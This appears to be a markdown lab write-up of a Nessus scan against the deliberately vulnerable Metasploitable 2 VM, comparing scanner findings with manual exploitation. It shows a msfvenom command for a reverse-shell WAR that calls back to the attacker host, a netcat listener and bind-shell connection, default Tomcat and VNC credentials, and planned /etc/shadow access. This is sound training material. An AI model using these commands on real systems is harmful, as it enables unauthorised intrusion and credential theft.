









# Metasploitable — Nessus Vulnerability Assessment

Nessus Essentials scan against Metasploitable 2 (10.10.10.20) from Parrot OS (10.10.10.10). Run alongside the manual black box assessment to show scanner-assisted triage.

**Scan details:**
- Tool: Nessus Essentials (Local Scanner)
- Policy: Basic Network Scan (CVSS v3.0)
- Target: 10.10.10.20
- Duration: 18 minutes
- Result: 69 vulnerabilities — 9 Critical, 8 High, 30 Medium, 139 Info

---

## Scan Summary





---

## Findings

### 1. VNC Weak Password — Critical (CVSS 10.0)

**Port:** 5900/tcp  
**Plugin:** #61708

Nessus logged into the VNC service using the password `password`. The service accepted it without any brute force.



Connected manually with `vncviewer 10.10.10.20` and entered `password` — got a full graphical desktop as root.



Fix: set a strong VNC password or replace VNC with SSH.

---

### 2. Apache Tomcat SEoL (≤5.5.x) — Critical (CVSS 10.0)

**Port:** 8180/tcp  
**Plugin:** #171340

Tomcat 5.5 has been end of life since 2012 — no security patches. The manager interface was also running with default credentials, which leads straight to RCE.



Accessed the manager at `http://10.10.10.20:8180/manager/html` with `tomcat:tomcat`.





Generated a WAR payload and uploaded it through the manager:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f war -o shell.war
nc -lvnp 4444
```



Browsed to `http://10.10.10.20:8180/shell/` to trigger it — shell came back on port 4444.



```
whoami   → tomcat55
hostname → metasploitable
id       → uid=110(tomcat55) gid=65534(nogroup)
```

Fix: upgrade Tomcat, change default credentials, restrict manager to localhost.

---

### 3. Bind Shell Backdoor — Critical (CVSS 9.8)

**Port:** 1524/tcp  
**Family:** Backdoors

Open bind shell on port 1524 — `nc 10.10.10.20 1524` drops straight into a root shell. Also exploited in the manual assessment.

Fix: remove the bindshell, audit running services, firewall unused ports.

---

### 4. SSL v2 and v3 Protocol Detection — Critical (CVSS 9.8)

SSLv2 and SSLv3 both supported on the host. Both are deprecated and vulnerable to POODLE (CVE-2014-3566) and DROWN (CVE-2016-0800).

Fix: disable SSLv2/v3, enforce TLS 1.2 minimum.

---

## Scanner vs Manual

| Finding | Nessus | Manual |
|---|---|---|
| VNC weak password | detected | verified |
| Apache Tomcat SEoL + default creds | detected | exploited |
| Bind shell (port 1524) | detected | exploited |
| vsftpd 2.3.4 backdoor | detected | exploited |
| Samba usermap_script RCE | detected | exploited |
| SSL v2/v3 | detected | — |

Nessus caught everything from the manual assessment and flagged the SSL issues on top. The scanner is good for coverage and triage — manual testing shows what's actually exploitable.

---

## What I Would Do Next

- Escalate from `tomcat55` to root via a local privesc (kernel exploit or SUID abuse)
- Use the VNC root session to pull credentials from `/etc/shadow`
- Re-run with SSH credentials for an authenticated scan to catch OS-level issues the unauthenticated scan missed
- Build a patch prioritisation list from the CVEs
